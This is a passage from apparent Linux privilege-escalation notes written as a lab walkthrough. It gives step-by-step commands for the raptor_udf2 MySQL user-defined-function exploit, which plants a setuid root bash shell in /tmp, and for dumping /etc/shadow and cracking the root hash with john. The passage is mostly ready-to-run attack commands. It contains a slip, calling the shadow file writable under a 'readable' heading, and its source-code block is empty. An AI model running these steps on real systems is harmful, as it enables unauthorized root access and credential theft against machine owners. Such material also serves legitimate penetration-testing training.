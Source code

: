 ```

```

Compile the file

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Next connect to the mysql service as root with blank password Execute the following commands on the mysql shell to create User Defined Function (UDF) "do\_system"

```
use mysql; 

create table foo(line blob);

insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));  

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  

create function do_system returns integer soname 'raptor_udf2.so';
```

Use do\_system function to create a bash shell

```
select do_system('cp /bin/bash /tmp/shell; chmod +xs /tmp/shell');
```

Exit out of the mysql shell and execute

```
/tmp/shell -p
```

#### Readable shadow file

if the /etc/shadow is writable, we can dump its content and crack the hashes

```
cat /etc/shadow
```

User password hash can be found between the first and second colons (:) of each line. Save the root user's hash to a file called hash.txt on your machine.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Then to root

```
su root
```

#### Writable shadow file
